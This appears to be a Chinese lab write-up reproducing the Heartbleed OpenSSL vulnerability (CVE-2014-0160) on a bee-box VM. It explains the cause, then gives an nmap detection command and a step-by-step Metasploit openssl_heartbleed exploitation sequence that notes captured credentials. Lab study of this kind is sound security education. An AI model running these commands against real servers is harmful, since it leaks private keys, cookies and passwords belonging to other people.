




# 心脏滴血漏洞复现(CVE-2014-0160) - ZM 思 - 博客园

> 原文：[`www.cnblogs.com/wjw-zm/p/11651382.html`](https://www.cnblogs.com/wjw-zm/p/11651382.html)

###### 漏洞范围：

OpenSSL1.0.1 版本

###### 漏洞成因：

Heartbleed 漏洞是由于未能在 memcpy()调用受害用户输入内容作为长度参数之前正确进行边界检查。攻击者可以追踪 OpenSSL 所分配的 64KB 缓存、将超出必要范围的字节信息复制到缓存当中再返回缓存内容，这样一来受害者的内存内容就会以每次 64KB 的速度进行泄露。

###### 漏洞危害：

如同漏洞成因所讲，我们可以通过该漏洞读取每次攻击泄露出来的信息，所以可能也可以获取到服务器的私钥，用户 cookie 和密码等。

* * *

###### 漏洞复现：

环境：本次环境使用 bee-box 虚拟机(已集成该漏洞环境)进行测试。
bee-box 虚拟机下载：[链接](https://link.jianshu.com/?t=https%3A%2F%2Fsourceforge.net%2Fprojects%2Fbwapp%2Ffiles%2Fbee-box%2F)

1.确定目标及端口信息。这里存在漏洞的靶机端口为 8443。



2.使用 nmap 的脚本进行检测漏洞是否存在。

```
nmap -sV -p 8443 --script ssl-heartbleed.nse 192.168.224.131 
```

由下图检测结果可以看出存在心脏滴血漏洞。


3.github 上也有一个项目，是专门检测心脏滴血漏洞的。[链接点这里](https://link.jianshu.com/?t=https%3A%2F%2Fgithub.com%2Fmusalbas%2Fheartbleed-masstest%2Fblob%2Fmaster%2Fssltest.py)
本地环境试了一下好像不行，大家自行去分析吧，这个不是我讲的重点。

4.使用 msf 进行漏洞利用。
a) 打开 msfconsole 后，查找 heartbleed 模块：

```
#msf>search heartbleed 
```

[图片上传中...(image.png-be8875-1514368932518-0)]


b) 使用第一个选项

```
#msf > use auxiliary/scanner/ssl/openssl_heartbleed 
```


c) 查看需要设置哪些选项

```
#msf auxiliary(openssl_heartbleed) > show options 
```



d) 这里我们需要设置 RHOSTS，RPORT


e) 设置 verbose，这个设置要设置成 true 才能看到泄露的信息

```
#msf auxiliary(openssl_heartbleed) > set  verbose true
(此设置主要是为了显示整个过程以及 leak 出来的数据，如果没有的话只显示如下图结果) 
```


f) exploit

```
#msf auxiliary(openssl_heartbleed) > exploit 
```



g) 如果有人在正在登录该 web 应用的话，还可能可以直接抓到账号密码等信息。

